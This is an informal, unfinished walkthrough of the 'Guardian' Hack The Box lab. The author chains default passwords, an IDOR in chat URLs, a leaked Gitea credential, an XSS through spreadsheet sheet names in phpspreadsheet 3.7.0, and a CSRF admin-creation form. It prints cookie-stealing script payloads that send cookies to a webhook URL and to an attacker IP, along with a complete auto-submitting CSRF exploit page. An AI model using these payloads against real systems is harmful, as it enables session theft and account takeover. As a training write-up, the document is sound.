## Machine Guardian (Active) [HARD]


let's start solving this hard machine:\
lets start with an nmap scan:
```
❯ nmap -sV -T4 -F 10.129.4.187
Starting Nmap 7.98 ( https://nmap.org ) at 2026-02-24 23:23 +0100
Nmap scan report for guardian.htb (10.129.4.187)
Host is up (0.47s latency).
Not shown: 98 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.52
Service Info: Host: _default_; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.78 seconds
```

okay so an ssh port and an http port;\
let's check the website: (guardian.htb):\
\
\
let's start exploring one by one:\
by clicking on the Student Portal we're taken to this page ```portal.guardian.htb``` :\
\
let'stry some stuff out:\
so there's a forgot password page ```forgot.php```, and there's another ineteresting one, the help page: ```http://portal.guardian.htb/static/downloads/Guardian_University_Student_Portal_Guide.pdf```, where we find the following pdf:\
\

so they give us the first time default password : ``` GU1234 ```, so the thing is that i dont really have any student ID, but, there might be something promising, at the first landing page, in the testimonials section, there's this :\
\
where you can see in their emails, these look like the student id template, so let's try them out with the default password hoping that these student's didn't change their password:\
after trying the 3 of them :\
the second and the third failed, BUT .. the first one worked : ```GU0142023```, and we are inside of the portal:\
\
well let me tell, you, there's a fuck ton of pages, i'll prolly spend hours going through them, let's document it for fun: it's currently 11:38PM, ill see u if i find anything interesting XD.\

so in this assignment's submission's page there's a place where we can upload our assignmenet's:\
\
ill keep it in mind just in case;\
there's also this chat's page where you can choose different users and msg them, i chose the admin and im playing around :\
\
but I realized something, take a look at the url : \
```http://portal.guardian.htb/student/chat.php?chat_users[0]=13&chat_users[1]=1```\
i've seen this pattern before in a machine where you could change the params inside of the url and you could maybe view other chats(I might or might need need to the admin's token but let's see), after looking at different chats, the ```users[0]=13``` was consistent, while the other part changed, which makes me think that the ```users[1]=1``` is the admin's and the other is mine, so let's maybe try to play around with the admin's to see if we could possibly read the admin's chats;\
\
YES WE FUCKING CAN, look, so 0 is about the first person's perspective, and the number is the identifier, so when i switched them , now i can see the same chat, but from the admin's perspective, HELL YEAH, we prolly can see other chat;s now, we might be onto something !\
\
bro, im going through different id's and im finding stuff, damn !, well keep this in mind\
i went through the id's manually from 0 to 20, but found nothing, except for the id+2, as shown in the picture, so basically the admin told the user : ```jamil.enockson``` that his password for gitea is : ```DHsNnk3V503```, idk what gitea is but let's run a quick google search :\
\
alright so it's a source control platform like github and gitlab, let's check where exactly to login with this password, let's investigate the user jamil.enockson further, i'm probably going to get stuck here....\
so i went through courses and i found that jamil teaches none there,i went through notices.php and jamil didn't post anything there;\
well lets take the last resort, let's do the same thing but for jamil, let's take a look at his messages:\
so he has a couple of messages here and there but nothing really interesting,;
ill go through every user's messages right know naybe i could find anything:\
nothing....\

hello from 12:34AM, i was helpless testing different subdomains. and well well well, ```gitea.guardian.htb``` was one that worked, if only i did a subdomain scan from the start i would've saved lots of time, but alright:\
\
lets login with creds:``` jamil.enockson:DHsNnk3V503 ```, the username says incorret, so maybe its ```jamil.enockson@gmail.com```\
\
yes IT IS !, let's go through all of it;\
we can find the source code for the whole platform !:\
\
lets investigate it:\
too much code, will comback later if i find anything ;);\
I didn't take too long, so I wasn't able to find anything (there's like millions of lines of code), but what I did is try to look for all the packages that they're using and if they had any public vulnerabilities, there's this in composer.json : 
```
{
    "require": {
        "phpoffice/phpspreadsheet": "3.7.0",
        "phpoffice/phpword": "^1.3"
    }
}
```
well , yeah XD:\
\
we got an XSS vulnerability on the library phpspreadsheet with the version 3.7.0, let's learn abit about this library and where it's used exactly (its about spread sheet,s and if you remember, there was a page, where you could upload your assignmenets and you can upload an xslx spreadsheet there, just saying... who knows ....)\
\
i was right apparently..., let's try it out to maybe get the teacher's cookie, so how this works is we're going to create an xslx file, put the xss payload there, and wait for the teacher to open it, and we get his cookie like that, im going to use webhook for that: 
```
<script>fetch('https://webhook.site/f2da39cf-7f39-4536-971f-8bfc10b7f54d/?c='+document.cookie)</script>
```
and we put this inside an xslx file and upload it as an assignement, and wait on the webhook and hope for something ....\
i tried it but it didnt work, but that was dumb of me since i didn't fully read the description in the cve page : `` When generating the HTML from an xlsx file containing multiple sheets, a navigation menu is created. This menu includes the sheet names, which are not sanitized. As a result, an attacker can exploit this vulnerability to execute JavaScript code. ``\
so we create a sheet, with the xss payload as it,s name, so that's how....\
\
oops, so i can't do it this way, I asked ai for help and it gave me this alternative, which is shorter than 100 chars : 
``` 
<script>location='//webhook.site/f2da39cf-7f39-4536-971f-8bfc10b7f54d/?c='+document.cookie</script>
```
and let's export it as an xslx and upload it\
\
and now we wait for any response in the webhook...\
i waited for like 5 mins and got nothing, let's try something else, maybe a python server:\
like this :
```
<script>fetch('http://10.10.16.18:9999/log?c='+document.cookie)</script>
```

and there we are !\
\
we got the teacher's cookie, now well put it in devtools and get the dashboard as a teacher:\
\
boom, we are now ``` sammy.treat ``` , lets look around and see if we find anything interesting:\
\
i can see the assignmenets and submissions of the students, and i can change their grade:\
\
I tried different stuff but it's totally sanitized to only accept numbers between 1 and 100, so negative numbers, no chars, so it's probably not the way, let's look around for something else:\

on the notices page, well im a lecturer now, and i can create notices, lets try to create one:\
\
\
so the admin (which is a bot in this case), will visit my link, maybe ill steal his cookies too,\

-3am update: I Tested every single thing you could think of, got nothing, I asked for a nudge, and they said inspect the page, (FFS how did i not think of that)\

well after inspecting the page, we can see this:\
\
a csrf token, well i honeslty never tried to do csrf so i'll sit and learn about it first:
```
In a successful CSRF attack, the attacker causes the victim user to carry out an action unintentionally. For example, this might be to change the email address on their account, to change their password, or to make a funds transfer. Depending on the nature of the action, the attacker might be able to gain full control over the user's account. If the compromised user has a privileged role within the application, then the attacker might be able to take full control of all the application's data and functionality.
```
I found this in portswigger academy, so maybe with this we can change the credentials of the admin ? and get into his dashboard ? let's see how exactly can we do that:\
well i was thinking on updating the admin's creds, but that needs his cookies, how about creating a new user with admin privelege, But I don't know the endpoint for it, but well we have the source code so let's check if there's a specific page for creating new users and alt textif it's possible to have new users with admin privelege:\
\
and yes there is, and it verifies if the csrf token is valid, which in this case, it will be a valid one (the lecturer's), so now i need to make a website, that when visited will attempt to create a new user, I had ai generate me the html page:\
```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Exploit</title>
</head>
<body>
<h1>Exploit</h1>
<form id="Form" action="http://portal.guardian.htb/admin/createuser.php" method="POST">
    <input type="hidden" name="username" value="bl0rph">
    <input type="hidden" name="password" value="Admin123!">
    <input type="hidden" name="full_name" value="New Admin">
    <input type="hidden" name="email" value="admin@admin.com">
    <input type="hidden" name="new_admin" value="2007-02-26">
    <input type="hidden" name="address" value="street">
    <input type="hidden" name="user_role" value="admin">
    <input type="hidden" name="csrf_token" value="d3b6e35fa0d8240655230c9ec8869dca">
</form>
<script>
    document.getElementById('Form').submit();
</script>
</body>
</html>

```

so now we serve this html page and make the admin visit it: we save this page to an html file and serve it with python server:\
\
and we got a request:\
\
the admin visited it, so now we hope he created this new user with admin priveleges, let's try to login with it: ``` bl0rph:Admin123! ``` \
it's not logging in, we might have made a mistake idk, now we have to do the whole process from zero cuz the lecturer cookie is invalid now, ffs\


